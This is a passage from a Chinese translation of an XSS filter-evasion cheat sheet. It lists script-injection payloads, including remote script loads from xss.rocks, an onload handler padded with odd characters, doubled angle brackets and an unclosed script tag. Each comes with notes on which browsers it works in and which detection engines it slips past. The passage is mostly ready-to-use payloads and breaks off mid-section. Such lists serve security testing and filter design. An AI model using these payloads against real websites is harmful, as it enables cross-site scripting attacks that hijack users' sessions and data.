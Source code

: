 ``` {.html}
<SCRIPT/XSS SRC="http://xss.rocks/xss.js"></SCRIPT>
```

基于上面的原理，可以使用模糊测试进行扩展。Gecko
渲染引擎允许任何字符包括字母，
数字或特殊字符（例如引号，尖括号等）存在于事件名称和等号之间，这会使得更加容易绕过跨站脚本过滤。注意这同样适用于下面看到的重音符:

``` {.html}
<BODY onload!#$%&()*~+-_.,:;?@[/|\]^`=alert("XSS")>
```

Yair Amit 让我注意到了 IE 和 Gecko 渲染引擎有一点不同行为，在于是否在
HTML
标签和参数之间允许一个不含空格的斜杠。如果系统不允许空格的时候，这会非常有用。

``` {.html}
<SCRIPT/SRC="http://xss.rocks/xss.js"></SCRIPT>
```

### 2.26. 额外的尖括号

由 Franz Sedlmaier 提交，这个 XSS
攻击向量可以绕过某些检测引擎，比如先查找第一个匹配的尖括号，然后比较里面的标签内容，而不是使用更有效的算法，例如
Boyer-Moore
算法就是查找整个字符串中的尖括号和相应标签（当然是通过模糊匹配）。双斜杠注释了额外的尖括号来防止出现
JavaScript 错误：

``` {.html}
<<script>
    alert("XSS"); //<
</script>
```

### 2.27. 未闭合的 script 标签

在 Firefox 和 Netscape 8.1 的 Gecko 渲染引擎下你不是必须构造类似"\>
</SCRIPT>

" 的跨站脚本攻击向量。Firefox 假定闭合 HTML
标签是安全的并且会为你添加闭合标记。多么体贴！不像不影响 Firefox
的下一个问题，这不需要在后面有额外的 HTML
标签。如果需要可以添加引号，但通常是没有必要的，需要注意的是，我并不知道这样注入后
HTML 会什么样子结束:

``` {.html}
<SCRIPT SRC=http://xss.rocks/xss.js?< B >
```

### 2.28. script 标签中的协议解析

这个特定的变体是由 Łukasz Pilorz 提交的，并且基于 Ozh
提供的协议解析绕过。这个跨站脚本示例在 IE 和 Netscape 的 IE
渲染模式下有效，如果添加了
</SCRIPT>

标记在 Opera
中也可以。这在输入空间有限的情况下是非常有用的，你所使用的域名越短越好。".j"是可
用的，在 SCRIPT 标签中不需要考虑编码类型因为浏览器会自动识别。
